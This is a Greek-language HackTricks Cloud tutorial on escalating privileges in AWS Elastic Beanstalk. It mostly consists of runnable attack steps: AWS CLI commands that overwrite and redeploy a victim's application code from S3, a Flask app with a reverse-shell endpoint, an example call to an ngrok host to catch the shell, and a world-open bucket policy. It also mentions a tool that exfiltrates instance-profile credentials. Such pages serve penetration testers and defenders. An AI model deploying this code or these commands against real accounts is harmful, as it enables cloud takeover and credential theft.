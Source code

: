 # AWS - Ανύψωση Προνομίων στο Elastic Beanstalk

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Elastic Beanstalk

Περισσότερες **πληροφορίες σχετικά με το Elastic Beanstalk** στο:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Για να εκτελέσετε ευαίσθητες ενέργειες στο Beanstalk θα χρειαστείτε **πολλές ευαίσθητες άδειες σε πολλές διαφορετικές υπηρεσίες**. Μπορείτε να ελέγξετε για παράδειγμα τις άδειες που δίνονται στο **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, Δικαιώματα εγγραφής στο S3 & πολλά άλλα

Με **δικαιώματα εγγραφής στον κάδο S3** που περιέχει το **κώδικα** του περιβάλλοντος και δικαιώματα για **ανακατασκευή** της εφαρμογής (χρειάζεται `elasticbeanstalk:RebuildEnvironment` και μερικά ακόμα σχετικά με `S3`, `EC2` και `Cloudformation`), μπορείτε να **τροποποιήσετε** τον **κώδικα**, **να ανακατασκευάσετε** την εφαρμογή και την επόμενη φορά που θα έχετε πρόσβαση στην εφαρμογή θα **εκτελέσει τον νέο κώδικά σας**, επιτρέποντας στον εισβολέα να διακινδυνεύσει την εφαρμογή και τα διαπιστευτήρια του ρόλου IAM της.
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, και περισσότερα...

Τα ανωτέρω συν μερικές άλλες άδειες για **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** και **`elasticloadbalancing`** είναι απαραίτητες για τη δημιουργία ενός σεναρίου Elastic Beanstalk από το μηδέν.

* Δημιουργία μιας εφαρμογής AWS Elastic Beanstalk:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* Δημιουργήστε ένα περιβάλλον AWS Elastic Beanstalk ([**υποστηριζόμενες πλατφόρμες**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Αν ένα περιβάλλον έχει ήδη δημιουργηθεί και **δεν θέλετε να δημιουργήσετε ένα νέο**, μπορείτε απλά να **ενημερώσετε** το υπάρχον.

* Συσκευάστε τον κώδικα της εφαρμογής και τις εξαρτήσεις σας σε ένα αρχείο ZIP:
```python
zip -r MyApp.zip .
```
* Μεταφόρτωση του ZIP αρχείου σε ένα S3 bucket:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* Δημιουργία μιας εκδοχής εφαρμογής AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Αναπτύξτε την έκδοση της εφαρμογής στο περιβάλλον AWS Elastic Beanstalk σας:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Καταρχάς, πρέπει να δημιουργήσετε ένα πραγματικό περιβάλλον Beanstalk με τον κώδικα που θέλετε να εκτελέσετε στο θύμα ακολουθώντας τα προηγούμενα βήματα. Πιθανώς ένα απλό zip που περιέχει αυτά τα 2 αρχεία:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="απαιτήσεις.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Αφού έχετε το **δικό σας περιβάλλον Beanstalk εκτελούμενο** το rev shell σας, είναι ώρα να το **μεταφέρετε** στο **περιβάλλον του θύματος**. Για να το κάνετε αυτό, πρέπει να **ενημερώσετε την πολιτική του Bucket** του S3 του beanstalk ώστε το **θύμα να μπορεί να το προσπελάσει** (Σημειώστε ότι αυτό θα το κάνει να είναι **ανοιχτό** σε **ΟΛΟΥΣ**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% κώδικας υπερχείλιση="τυλίγματος" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του GitHub.

</details>
